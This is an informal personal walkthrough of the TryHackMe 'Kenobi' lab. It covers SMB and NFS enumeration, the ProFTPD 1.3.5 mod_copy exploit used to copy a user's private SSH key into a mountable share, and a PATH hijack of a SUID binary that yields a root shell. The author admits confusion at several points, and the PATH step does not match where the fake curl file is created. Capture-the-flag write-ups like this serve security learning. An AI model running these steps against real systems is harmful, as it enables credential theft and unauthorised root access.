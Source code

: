 1. scan the network as normal. http server is a trick nothing is there
2.  on 445 samba was running.  to enumerate samba more we can use nmap scripts. like the following command
_nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP_
in this scenario could find three samba shares. hidden share, anonymous and print.  i dont know what is anonymous share but i guess it allows to access by anyone.may be im dumb. smbclient can be used to access those shares.
_smbclient //ip/anonymous_
to download the file in it we can either use 'get' command or this
_smbget -R smb://ip/anonymous_

3. i have no idea of rpcbind. but i think it has some thing to do with nfs(network file system). so as the above nmap can be used to enumerate the rpcbind or nfs whatever
_nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.84.55_
so it show we can see /var directory as a mount(i don't know what is mount. it was in thm)

4. now we are going for ftp service. to listen to the ftp service we can use netcat like this.
_nc ipofserver 21_ 
now we got the version as proftpd 1.3.5. so thm says to try to find exploits in there. it suggest about 'exploit-db' and says searchsploit command can access the db
_searchsploit proftpd 1.3.5_ 
now this shows 4 exploits. 
by the way we can access ftp server using this
_ftp ipaddress_
now we are going to use that mode_copy exploit. first listen using netcat. then copy and past private ssh key in to the path where mount thing can do. 
_nc 10.10.84.55 21_
_SITE CPFR /home/kenobi/.ssh/id_rsa_
_SITE CPTO /var/tmp/id_rsa_

5. now private key for ssh is in var direcotory. since it can mount now we can mount it and go through it to find the private key.
dont know anything about this mnt directory but it worked first time.second time it worked to the path where i created. maybe im idiot.just do these.
_mkdir mnt/kenobi_
_mount 10.10.84.55:/var /mnt/kenobi_
_ls -al /mnt/kenobi_
now we can see whole nfs(network file system) in there. now go to tmp and copy and paste private key in somewhere else. change the permission if you want before using it. 

by the way all those info about private key could be find because of that samba shared log file. 

6.  now we have gained access. now try to find suid files using find command. first one is my method. 
_find / -perm /4000 2>/dev/null_
_find / -perm -u=s -type f 2>/dev/null_

john hammond said /usr/bin/menu is suspicious. i have no idea. he is a genius. so file command showed it is a binary file. because it has SUID permission we know what ever inside it run as root.
_file /usr/bin/menu_
then we could find some of the program code by using strings command. strings is also can be usefull in stegonagraphy.sorry about my english. future me u better have find some job. 
_strings /usr/bin/menu_
by the way when we run /usr/bin/menu binary file it gave us three options. in string command could find the "curl -I localhost". for the record i know -I in curl give header info and first option in binary file also gave some heder info. so first option run that curl command.
now what we do.
now we create a curl file in our directory and make it to run the bash shell. then we can change path variable so when ever this run (/usr/bin/menu) the curl in it run the curl in our directory. 
yeah i know just look at the code
_echo /bin/bash > curl_  -- /bin/sh also worked
_chmod +x curl_ -- make the permission otherwise it wont run
echo $PATH -- this shows the path variable. i have no idea what it is
export PATH=/dev/shm:$PATH -- this change the path variable to inour path /dev/shm
now just run the program and select option one. it will run as curl in our path and will give bash shell with root permission
_/usr/bin/menu_

i dont have any idea but its 2022/11/04 and im jobless and future is dark.

